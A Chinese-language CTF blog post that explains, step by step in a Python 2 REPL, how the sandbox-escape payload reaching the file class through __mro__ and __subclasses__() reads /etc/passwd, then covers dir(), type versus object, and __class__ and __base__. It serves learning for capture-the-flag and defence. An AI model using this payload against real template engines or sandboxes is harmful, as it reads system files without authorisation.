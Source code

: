 ```yaml
---
title: 关于python魔术方法payload："".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() 的解释
date: 2019-01-02 00:00:00
categories:
- CTF/Web
tags: python
---
```


## 总览

```python
"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
```

其实就是类似java的反射，通过一个对象找到另一个对象，这里通过一个字符串对象，找了一个文件对象，然后初始化，读取，就是这么个事。

```python
# 获得一个字符串实例
>>> ""
''
# 获得字符串的type实例
>>> "".__class__ 
<type 'str'>
# 获得其父类
>>> "".__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)
# 获得父类中的object类
>>> "".__class__.__mro__[2] 
<type 'object'>
# 获得object类的子类，但发现这个__subclasses__属性是个方法
>>> "".__class__.__mro__[2].__subclasses__
<built-in method __subclasses__ of type object at 0x10376d320>
# 使用__subclasses__()方法，获得object类的子类
>>> "".__class__.__mro__[2].__subclasses__() 
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
# 获得第40个子类的一个实例，即一个file实例
>>> "".__class__.__mro__[2].__subclasses__()[40] 
<type 'file'>
# 对file初始化
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd") 
<open file '/etc/passwd', mode 'r' at 0x10397a8a0>
# 使用file的read属性读取，但发现是个方法
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read
<built-in method read of file object at 0x10397a5d0>
# 使用read()方法读取
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
nobody:*:-2:-2:Unprivileged 
User:/var/empty:/usr/bin/false
root:*:0:0:System 
Administrator:/var/root:/bin/sh

```

## 问题

问：但我怎么知道什么类有什么方法呢？比如我如何知道应该用__mro__属性去找父类？__mro__是什么类的成员方法？又比如我怎么知道__subclasses__()是一个方法，而不是一个直接可以返回数组的变量呢？

答：python中有一个内置函数是dir()，可以用这个函数来查看传入参数的成员方法以及属性，我们来尝试一下

```python
>>> dir("")
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
>>> dir("".__class__)
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
```
首先我们看到```dir("")与dir("".__class__)```的结果是完全一样的

按照```"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()``` 的利用方法，接下来应该使用```__mro__```这个属性，来获得父类，但是我并没有在```dir("".__class__)```中看到这个属性，这是为什么呢？```__mro__```属性在哪呢？

## type与object

为了解释上面的这个问题，我们先要了解在python中的一个哲学问题，就是type与object的问题，这二位就像是哲学上的物质与意识，不仅相互关联，而且不可分割。

[Python 的 type 和 object 之间是怎么一种关系？](https://blog.csdn.net/piglite/article/details/78294112)

[python中的type和object详解](https://www.cnblogs.com/busui/p/7283137.html)

在Python的世界中：
- object是父子关系的顶端，所有的数据类型的父类都是它
- type是类型实例关系的顶端，所有对象都是它的实例的

也就是说这里不同于我们之前学到的类与对象的关系，这里有两条线，一个是类的关系，一个是实例的关系。也就是说：
- object和type都既是类又是实例
- object是type的一个实例
- type是object的子类

## ```__class__```与```__base__```属性

- ```__class__```属性可以沿着实例这条链往上走一个
- ```__base__```属性可以沿着父子类关系这个条链往上走一个

```python
>>> "".__class__
<type 'str'>
>>> "".__base__
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute '__base__'
```

我们可以看到""这个字符串对象中是没有```__base__```这个属性的



